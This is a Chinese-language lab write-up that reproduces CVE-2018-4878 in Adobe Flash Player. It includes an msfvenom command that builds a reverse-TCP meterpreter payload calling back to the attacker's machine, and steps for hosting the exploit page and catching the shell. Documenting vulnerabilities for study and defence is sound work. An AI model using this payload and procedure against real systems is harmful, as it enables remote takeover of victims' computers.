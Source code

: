 （CVE-2018-4878）Adobe Flash Player 远程代码执行漏洞
====================================================

一、漏洞简介
------------

2018年1月31日，韩国CERT发布公告称发现Flash
0day漏洞的野外利用，攻击者执行针对性的攻击；2月1日Adobe发布安全公告，确认Adobe
Flash Player 28.0.0.137
及早期版本存在远程代码执行漏洞（CVE-2018-4878）；2月2日，Cisco
Talos团队发布了事件涉及攻击样本的简要分析；2月7日，Adobe发布了CVE-2018-4878漏洞的安全补丁。

二、漏洞影响
------------

Adobe Flash Player \<= 28.0.0.137

三、复现过程
------------

-   1.环境    kail: `192.168.184.128`    win7sp1: `192.168.184.131`    exp: `CVE-2018-4878-master.zip `    flash: `AdobeFlashPlayer28.0.0.161正式版.zip`
-   2.利用msfvenom生成对应的shellcode代码

```{=html}
<!-- -->
```
    msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.184.128 lport=4444 -f python>shellcode.txt

![1.png](./.resource/(CVE-2018-4878)AdobeFlashPlayer远程代码执行漏洞/media/rId24.png)

-   3.进入 CVE-2018-4878-master
    目录，编辑`CVE-2018-4878.py`文件，将msfvenom生成的代码覆盖掉原来的代码

![2.png](./.resource/(CVE-2018-4878)AdobeFlashPlayer远程代码执行漏洞/media/rId25.png)

-   4.修改 swf 文件及 html 文件位置

![3.png](./.resource/(CVE-2018-4878)AdobeFlashPlayer远程代码执行漏洞/media/rId26.png)

-   5.Python 执行 CVE-2018-4878-master.py 代码，会生成两个文件，一个 swf
    文件，一个 html 文件

![4.png](./.resource/(CVE-2018-4878)AdobeFlashPlayer远程代码执行漏洞/media/rId27.png)

-   6.把生成的两个文件放到apache web目录下

![5.png](./.resource/(CVE-2018-4878)AdobeFlashPlayer远程代码执行漏洞/media/rId28.png)

-   7.通过msf开启反弹sehll监听

![6.png](./.resource/(CVE-2018-4878)AdobeFlashPlayer远程代码执行漏洞/media/rId29.png)

-   8.靶机上win7安装存在漏洞的adobe flash player 28.0.0.126

![7.png](./.resource/(CVE-2018-4878)AdobeFlashPlayer远程代码执行漏洞/media/rId30.png)

-   9.通过win7自带的ie浏览器进行访问`192.168.184.128/index2.html`

![8.png](./.resource/(CVE-2018-4878)AdobeFlashPlayer远程代码执行漏洞/media/rId31.png)

-   10.Kail上成功获取到meterpreter shell

![9.png](./.resource/(CVE-2018-4878)AdobeFlashPlayer远程代码执行漏洞/media/rId32.png)

![10.png](./.resource/(CVE-2018-4878)AdobeFlashPlayer远程代码执行漏洞/media/rId33.png)
